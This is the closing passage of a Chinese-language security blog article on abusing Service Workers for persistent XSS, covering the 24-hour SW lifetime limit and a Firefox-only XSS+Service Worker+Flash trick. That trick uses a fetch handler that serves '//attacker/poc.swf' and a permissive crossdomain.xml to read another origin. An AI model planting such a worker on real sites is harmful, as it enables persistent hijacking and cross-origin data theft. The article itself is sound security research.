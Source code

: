 

## SW的限制二：生命周期

出于安全性的考虑，每个SW都有时间限制，在注册24小时后，原先的HTTP缓存就会实现，也就是一般意义上来说，这种持久化xss效果仍然有限。


## XSS+SW+Flash

当我们可以在站内控制上传或者创建一个flash时（only firefox）

然后用SW注册这个flash
```
onfetch=e=>{
    e.respondWith(fetch("//attacker/poc.swf"))
}
```

当站`http://example.com`内的crossdomain像这样时
```
<?xml
version="1.0"?>
<cross-domain-policy>
<allow-access-from
domain="example.jp" />
</cross-domain-policy>
```

我们可以通过在`example.jp`上创建恶意flash，来读取`http://example.com`的信息，这是一种某种程度上的SOP绕过（虽然并不是真的）。


在cure53 2016年的xss挑战赛就提到了这种操作

[https://github.com/cure53/XSSChallengeWiki/wiki/XSSMas-Challenge-2016](https://github.com/cure53/XSSChallengeWiki/wiki/XSSMas-Challenge-2016)


# 写在最后 #

写了这么多，但Service Worker的攻击利用向可以说是非常苛刻了，再加上w3c标准的不断改进，许多以前的利用方式都没办法再用了，但Service Worker本身需要的获取请求返回的权限却永远也去不掉，在这基础上，尽管利用方式有限，但在配合xss的持久化上能造成可怕的危害，至于好不好用，可能就是仁者见仁智者见智了。

# REF #

- [https://sakurity.com/blog/2015/08/13/middlekit.html](https://sakurity.com/blog/2015/08/13/middlekit.html)

- [https://www.html5rocks.com/en/tutorials/appcache/beginner/](https://www.html5rocks.com/en/tutorials/appcache/beginner/)

- [https://www.w3.org/TR/service-workers/](https://www.w3.org/TR/service-workers/)

- [https://speakerdeck.com/masatokinugawa/pwa-study-sw](https://speakerdeck.com/masatokinugawa/pwa-study-sw)

- [https://zhuanlan.zhihu.com/p/29734820](https://zhuanlan.zhihu.com/p/29734820)

- [https://paper.seebug.org/177/](https://paper.seebug.org/177/)

- [http://drops.xmd5.com/static/drops/web-10798.html](http://drops.xmd5.com/static/drops/web-10798.html)

  [2]: http://static.zybuluo.com/LoRexxar/9ikc1hbn085eecbpip9k4qhs/image.png
